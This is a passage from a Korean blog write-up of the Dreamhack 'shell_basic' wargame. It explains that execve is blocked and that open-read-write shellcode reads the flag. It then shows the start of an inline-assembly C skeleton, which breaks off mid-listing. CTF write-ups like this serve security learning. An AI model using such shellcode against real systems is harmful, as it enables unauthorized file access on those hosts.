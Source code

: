 ```yaml
---
title: '[Dreamhack] shell_basic'
description: Dremhack [Wargame] - shell_basic
author: juhyeongkim
date: 2024-10-31 08:00:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---
```


[문제 링크](https://dreamhack.io/wargame/challenges/410)

## 문제 풀이 방법

이번 워게임의 목표는 원격 서버의 `/home/shell_basic/flag_name_is_loooooong`에서 flag를 읽어오는 것이다.

그런데 여기서 제공된 문제의 shell_basic.c 파일을 보면 `execuve`, `execveat` 시스템 콜을 사용하지 못하도록 막아놨기 때문에, orw 쉘코드를 통해 해당 flag를 읽어오면 된다. 

<br>

## 풀이 방법 1. c언어 skeleton 코드 이용

**1.~5. 까지는 원격 서버에 byte code(opcode)를 추출하여 shellcode를 전달하기 위한 부분이고 6.이 실제 공격 과정이다.**

### 1.

먼저 orw 쉘 코드를 작성 후 skeleton 코드를 통해 실행 파일(ELF) 파일을 생성한다.

```c
// File name: orw.c
// Compile Option: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "xor rax, rax\n"
    "push rax\n"
    "mov rax, 0x676e6f6f6f6f6f6f\n"
    "push rax\n"
    "mov rax, 0x6c5f73695f656d61\n"
    "push rax\n"
    "mov rax, 0x6e5f67616c662f63\n"
    "push rax\n"
    "mov rax, 0x697361625f6c6c65\n"
    "push rax\n"
    "mov rax, 0x68732f656d6f682f\n"
    "push rax\n"

    "mov rdi, rsp\n"
    "xor rsi, rsi\n"
    "xor rdx, rdx\n"
    "mov rax, 0x02\n"
    "syscall\n"

    "mov rdi, rax\n"
```